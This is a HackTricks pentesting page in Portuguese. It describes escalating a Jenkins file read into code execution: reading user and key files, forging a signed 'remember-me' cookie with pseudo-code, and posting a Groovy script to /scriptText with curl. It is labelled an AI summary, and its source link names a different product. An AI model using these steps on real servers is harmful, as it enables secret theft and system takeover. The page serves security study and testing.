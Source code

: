 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

Neste post do blog é possível encontrar uma ótima maneira de transformar uma vulnerabilidade de Inclusão de Arquivo Local no Jenkins em RCE: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Este é um resumo criado por IA da parte do post onde o craft de um cookie arbitrário é abusado para obter RCE abusando de uma leitura de arquivo local até que eu tenha tempo para criar um resumo por conta própria:

### Pré-requisitos do Ataque

* **Requisito de Funcionalidade:** "Lembre-se de mim" deve estar habilitado (configuração padrão).
* **Níveis de Acesso:** O atacante precisa de permissões Gerais/Leitura.
* **Acesso Secreto:** Capacidade de ler tanto conteúdo binário quanto textual de arquivos-chave.

### Processo Detalhado de Exploração

#### Passo 1: Coleta de Dados

**Recuperação de Informações do Usuário**

* Acesse a configuração do usuário e segredos de `$JENKINS_HOME/users/*.xml` para cada usuário para coletar:
* **Nome de usuário**
* **Semente do usuário**
* **Timestamp**
* **Hash da senha**

**Extração da Chave Secreta**

* Extraia chaves criptográficas usadas para assinar o cookie:
* **Chave Secreta:** `$JENKINS_HOME/secret.key`
* **Chave Mestra:** `$JENKINS_HOME/secrets/master.key`
* **Arquivo da Chave MAC:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Passo 2: Forjamento de Cookie

**Preparação do Token**

*   **Calcular Tempo de Expiração do Token:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Adiciona uma hora ao tempo atual
```
{% endcode %}
*   **Concatenar Dados para o Token:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**Descriptografia da Chave MAC**

*   **Descriptografar o Arquivo da Chave MAC:**

```javascript
key = toAes128Key(masterKey)  // Converter chave mestra para formato de chave AES128
decrypted = AES.decrypt(macFile, key)  // Descriptografar o arquivo .mac
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Cálculo da Assinatura**

*   **Calcular HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey)  // Calcular HMAC usando o token e a chave MAC
tokenSignature = bytesToHexString(mac)  // Converter o MAC para uma string hexadecimal
```

**Codificação do Cookie**

*   **Gerar Cookie Final:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Codificar os dados do cookie em Base64
```
{% endcode %}

#### Passo 3: Execução de Código

**Autenticação de Sessão**

* **Buscar Tokens CSRF e de Sessão:**
* Faça uma solicitação para `/crumbIssuer/api/json` para obter `Jenkins-Crumb`.
* Capture `JSESSIONID` da resposta, que será usado em conjunto com o cookie de lembrete.

**Solicitação de Execução de Comando**

*   **Enviar uma Solicitação POST com Script Groovy:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* O script Groovy pode ser usado para executar comandos em nível de sistema ou outras operações dentro do ambiente Jenkins.

O exemplo de comando curl fornecido demonstra como fazer uma solicitação ao Jenkins com os cabeçalhos e cookies necessários para executar código arbitrário de forma segura.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
